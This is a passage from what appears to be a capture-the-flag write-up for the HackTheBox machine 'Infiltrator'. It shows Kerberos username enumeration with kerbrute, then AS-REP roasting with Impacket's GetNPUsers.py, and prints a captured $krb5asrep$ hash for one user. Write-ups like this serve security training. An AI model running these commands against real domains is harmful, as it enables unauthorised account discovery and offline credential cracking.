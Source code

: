 [kerbrute](https://github.com/ropnop/kerbrute) will check each of these against Kerberos to see if they are valid usernames:

```

oxdf@hacky$ kerbrute userenum -d infiltrator.htb usernames.txt --dc infiltrator.htb

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 09/03/24 - Ronnie Flathers @ropnop

2024/09/03 16:32:26 >  Using KDC(s):
2024/09/03 16:32:26 >   infiltrator.htb:88

2024/09/03 16:32:26 >  [+] VALID USERNAME:       d.anderson@infiltrator.htb
2024/09/03 16:32:26 >  [+] VALID USERNAME:       o.martinez@infiltrator.htb
2024/09/03 16:32:26 >  [+] VALID USERNAME:       k.turner@infiltrator.htb
2024/09/03 16:32:26 >  [+] VALID USERNAME:       a.walker@infiltrator.htb
2024/09/03 16:32:26 >  [+] VALID USERNAME:       m.harris@infiltrator.htb
2024/09/03 16:32:26 >  [+] VALID USERNAME:       e.rodriguez@infiltrator.htb
2024/09/03 16:32:27 >  [+] VALID USERNAME:       l.clark@infiltrator.htb
2024/09/03 16:32:27 >  Done! Tested 104 usernames (7 valid) in 0.966 seconds

```

The format is clearly `[first initial].[lastname]`.

#### AS-REP-Roast

With a list of valid users, I can check if any have the `DONT_REQUIRE_PREAUTH` bit set using `GetNPUsers.py` from [Impacket](https://github.com/SecureAuthCorp/impacket):

```

oxdf@hacky$ GetNPUsers.py infiltrator.htb/ -dc-ip 10.10.11.31 -usersfile valid_users 
Impacket v0.11.0 - Copyright 2023 Fortra

[-] User d.anderson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User o.martinez doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User k.turner doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User a.walker doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User m.harris doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User e.rodriguez doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$l.clark@INFILTRATOR.HTB:55bacd8d8b7337e8481004cfa120d204$2c02190778c13465bd999c4c267031fc37039b14df8a486e01b569907eeb4ba8071ba38b6d9b3ac748e3a425bbb43b759f636e3ceb99cf4ba6fe02d81b8b9ee79b4766be2797a7a827666bd402913fe59fa6a9b8b5938000b612c4a08c874d3ef91b9df2445636104c6bd9c84236c01386de53e6f7e7cb261bfc98dced925a6f0831f1edeb6db1558e85c1ab7cb3364e421e8c9a114dce972e577feb92ce2e860f89c4280ab9c343c8bd52382545080141f68aba560b8d5dff3bed1138a8ffdcd7d90cc685292750d52017d0f69c5e766781099fd8c85cc91c186e70603162c77b334510ffad191a787fb58b81d0fc5bfef6

```

